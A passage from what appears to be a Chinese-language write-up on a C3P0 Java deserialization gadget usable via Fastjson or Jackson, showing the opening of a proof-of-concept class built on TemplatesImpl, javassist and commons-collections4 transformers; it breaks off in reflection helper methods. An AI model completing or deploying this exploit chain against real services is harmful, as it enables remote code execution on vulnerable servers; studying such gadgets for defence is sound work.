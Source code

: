 <div align=center><img src="./images/20.png"></div>

<div align=center><img src="./images/21.png"></div>

### POC
在`Fastjson`、`Jackson`环境, 此`Gadget`更适合在不出网环境下利用.

```java
package org.h3rmesk1t.C3P0;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 4:38 下午
 */
public class C3P0Hex {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
```